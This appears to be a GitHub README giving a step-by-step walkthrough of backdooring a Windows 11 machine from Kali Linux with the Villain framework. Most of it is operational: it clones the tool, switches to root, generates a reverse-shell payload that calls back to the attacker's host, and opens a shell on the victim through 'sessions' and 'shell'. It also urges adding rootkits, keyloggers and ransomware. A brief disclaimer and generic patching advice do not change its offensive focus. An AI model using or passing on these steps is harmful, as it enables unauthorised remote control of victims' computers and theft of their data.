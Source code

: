 ## Kali Linux Backdoor Winows 11

- [Kali Linux Backdoor Winows 11](#kali-linux-backdoor-winows-11)
    - [functionality](#functionality)
    - [starting the attack](#starting-the-attack)
    - [disclaimer](#disclaimer)
    - [solving this exploit](#solving-this-exploit)
    - [Sources](#sources)

#### functionality

The malicious backdoor with villain function in Windows 11 Kali Linux is a technique employed by attackers to gain access to the system without the proper authorization. This is usually done by exploiting weaknesses in the system, such as weak passwords or unpatched software. Once inside, the attacker can execute malicious code, gaining access to confidential information and installing additional malicious software, such as rootkits and keyloggers. This can enable the attacker to gain control of the system and launch attacks on other systems, all without leaving any traces of their presence. Detection of this type of backdoor can be difficult, as it typically does not leave any evidence of its presence on the system.

#### starting the attack

The first thing we need is to prepare for the attack. This will entail downloading the repository with the required Tools for this attack.
This can be done with the following command:

``
git clone https://github.com/t3l3machus/Villain
``

to adjust the location of the where the folder will be downloaded on your computer you can use the `cd` command to manipulate in which directory you are e. g. 

``
cd desktop
``

Now having cloned the GitHub repository, we now can start launching the programm
this is done by going into the Villain folder that we just cloned from GitHub and starting it's programm. This can be done by the following command

``
cd path/to/Villain
``

When you execute this command you will be in the directory of Villain. Now from this point on forward I would advise that you'd switch to the root account on you kali linux or linux machine. This can be done with the following command:

``
su root
``

`su` stand for `switch user` and `root` is the most powerful account on the system. If you already used the root account before you know your password but if this is your first time using a root account you must change the password to do that. this can be done by entering following command:

``
sudo passwd root
``

Then simply input your prefered password and confirm your password. Now that your root you can start the attack. Firstly we will generate a backdoor this can be done by the following command:

``
generate os=TARGETOS lhost=YOURINTERFACE/IP
``

With this command you generate a payload for the desired `os` os meaning operating system in our case that would be `os=windows`. lhost is for defining on which interface/ip you wan't to host this backfoor in our case that would be lhost=eth0, `eth0` for the interface of your choice. After doing this there will be a command that will be outputed copy that command and put that in the windows 11 shell or any console and let the mayham begin. After having you backdoor finalized you can expand it and implement rootkits and other multiple backdoors or keyloggers and even download more malicious software such as Virus' or ransomware.

Now how to establish connection. To establish a connection you have to enter the following command:

``
sessions
shell [session ID]
``

#### disclaimer 

I will not include all steps I've made for this exploit because you could do serious harm with that knowledge and I do not condone such harmful behaviour this documentation is purely for the purpose of education
 
#### solving this exploit

To ensure that Windows 11 is secure from malicious backdoors with villain functions, it is important to install the latest security patches, use strong passwords for all accounts, and enable two-factor authentication. Additionally, it is recommended to regularly scan for malware, disable unnecessary services, and limit user privileges. Finally, a good antivirus/anti-malware solution should be installed and kept up to date. Anything other than that there is nothing else to do.

#### Sources

[![](https://i.ytimg.com/vi/mC6B-RNyG2U/maxresdefault.jpg)](https://www.youtube.com/watch?v=mC6B-RNyG2U "")
